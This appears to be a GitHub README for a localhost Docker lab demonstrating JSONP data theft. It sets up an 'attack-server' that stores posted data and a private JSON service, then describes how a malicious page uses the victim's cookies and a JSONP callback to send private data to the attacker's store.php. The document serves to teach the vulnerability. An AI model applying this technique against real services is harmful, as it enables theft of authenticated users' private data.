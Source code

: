 # JSONP-PoC
JSONP (=JSON with padding) is a special method to wrap JSON data in a JavaScript function.
If a webservice allows requests with custom defined callback-functions, the webservice might be vulnerable to JSONP attacks.
How this could be achieved, is described below.

## Starting the attack-server
The attack-server is the server that receives our data and stores it in a file. To do this, we need to make a POST request to http://127.0.0.1:8082/store.php with the `data` parameter. For example:
```
POST /store.php HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

data=test
```
See also `test-post.html` which can be used to make such POST requests.

To start the server:
```
cd attack-server
docker run --rm -p 8082:80 --name attack-server --mount type=bind,source="$(pwd)",target=/var/www/html php:apache
```
The file `./data/data.sav` may still need to be given the correct permissions:
```
docker exec -it attack-server bash
mkdir data
touch data/data.sav
chown -R www-data:www-data data
```

## Starting the (private) json-webserver
```
cd json-webserver
docker run --rm -p 3000:3000 --name json-server -v `pwd`:/data williamyeh/json-server --watch db.json
```

## Stopping the servers
```
docker stop attack-server
docker stop json-server
```

## Checks
Verify if POST-requests can be sent to the attack-server:
```
http://127.0.0.1:8082/test-post.html
```
Change into the docker container and output the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
The file `data.sav` should contain the string that you sent via the `test-post.html` website.

Check if the json-webserver is running and responds with JSON-data:
```
http://127.0.0.1:3000/posts
```

## PoC
Now assume the following scenario:
If the webservice or the data served by the webservice (json-webserver) is only accessible to authorized users, there is no way to directly access this private data by an attacker. For example, accessibility to the data could be granted to users that include certain cookies or other secrets into their requests. The webservice would then respond to these requests only if the cookies are valid.

If however the webservice allows JSONP, we could create a malicious website that makes requests from the victims browser to the vulnerable webservice. The requests sent from the victims browser would include all necessary cookies to authorize against the webservice.
The only thing to do is to lure the victim to the malicious website.
In our PoC the malicious website is running under
```
http://127.0.0.1:8082/jsonp-attack.html
```

If the victim opens this link, a request to the webservice with a callback parameter is made:
```
http://127.0.0.1:3000/posts?callback=myCallbackServer
```
The callback `myCallbackServer` is a JavaScript-function that takes the data received from the webservice and sends it back to our attack-server via
```
http://127.0.0.1:8082/store.php
```

It can be checked if the data from the webservice was received corretly by cat'ing the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
